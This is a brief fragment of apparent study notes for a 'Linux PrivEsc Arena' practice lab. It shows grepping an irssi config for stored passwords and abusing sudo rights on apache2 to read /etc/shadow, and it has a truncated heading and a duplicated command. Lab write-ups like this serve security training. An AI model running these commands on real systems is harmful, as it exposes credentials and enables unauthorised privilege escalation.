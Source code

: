 # Linux PrivEsc Arena

### Stored passw

```bash
cat /home/user/.irssi/config | grep -i passw

cat /home/user/.irssi/config | grep -i passw
```

### Sudo (Abusing Intended Functionality)
1. In command prompt type: sudo -l
2. From the output, notice the list of programs that can run via sudo.
```bash
sudo apache2 -f /etc/shadow
```